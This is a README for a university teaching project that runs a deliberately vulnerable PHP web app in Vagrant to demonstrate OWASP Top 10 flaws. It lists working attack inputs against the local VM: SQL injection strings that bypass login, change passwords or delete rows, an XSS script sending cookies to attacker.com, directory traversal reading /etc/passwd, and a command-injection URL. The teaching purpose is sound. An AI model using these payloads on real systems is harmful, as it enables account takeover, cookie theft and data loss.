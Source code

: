 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
> vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd zcu_webapp_security_demo
> vagrant up
```
* for the first time it will take about 15 minutes till vagrant is ready (depending on your internet connection)
* in browser go to http://192.168.33.10/zcu/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
' OR username='alfa
```
* or even worst
```sql
'; UPDATE user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
<script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>
```

### Broken Session Management
* application with URL rewriting
* no logout and session timeout

### Sensitive Data Exposure
* to monitor HTTP traffic
```bash
root> tcpdump -A -vvv -i vboxnet1 host 192.168.33.10
```

### Cross-Site Request Forgery
* try this: http://192.168.33.10/zcu/index.php?action=create&notice=pokus


### Security Misconfiguration
* Directory listing is not disabled on your server
  * try this: http://192.168.33.10/zcu/list
  * selinux (setenforce 0, setenforce 1)
* Directory traversal
  * for this reason: http://192.168.33.10/zcu/list/fancy_script.php
  * but can be misused: http://192.168.33.10/zcu/list/get_file.php?file=../../../../etc/passwd
  * or: http://192.168.33.10/zcu/list/get_file.php?file=get_file.php
  * or even worst: http://192.168.33.10/zcu/list/get_file.php?file=/proc/1/cmdline;%20ls%20-al%20/


## Where to go next
* [OWASP Top Ten 2013 Project](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2013_Project)
* [OWASP Secure Coding Practices](https://www.owasp.org/images/0/08/OWASP_SCP_Quick_Reference_Guide_v2.pdf)
____


### Vagrant troubleshooting (Fedora 23)

#### 1) Failed to mount folders in Linux guest.
```bash
Failed to mount folders in Linux guest. This is usually because the "vboxsf" file system is not
available. Please verify that the guest additions are properly installed in the guest and  can
work properly. The command attempted was:
mount -t vboxsf -o uid=`id -u vagrant`,gid=`getent group vagrant | cut -d: -f3` opt_zcu_demo /opt/zcu_demo
mount -t vboxsf -o uid=`id -u vagrant`,gid=`id -g vagrant` opt_zcu_demo /opt/zcu_demo
...
/sbin/mount.vboxsf: mounting failed with the error: No such device
```
  - Problem description and solution described here: https://github.com/dotless-de/vagrant-vbguest/issues/170
   - shortly: vagrant ssh, sudo systemctl enable vboxadd, service vboxadd start, vagrant reload, vagrant provision

#### 2) Building the main Guest Additions module fail --> sync folder not mounted
```bash
...
Installing Virtualbox Guest Additions 5.0.10 - guest version is unknown
Verifying archive integrity... All good.
Uncompressing VirtualBox 5.0.10 Guest Additions for Linux............
VirtualBox Guest Additions installer
Removing installed version 5.0.10 of VirtualBox Guest Additions...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Copying additional installer modules ...
Installing additional modules ...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Building the VirtualBox Guest Additions kernel modules
The headers for the current running kernel were not found. If the following
module compilation fails then this could be the reason.
The missing package can be probably installed with
yum install kernel-devel-3.10.0-229.14.1.el7.x86_64

Building the main Guest Additions module[FAILED]
(Look at /var/log/vboxadd-install.log to find out what went wrong)
...
```
   - shortly: vagrant ssh, sudo yum update, Ctrl+D, vagrant reload
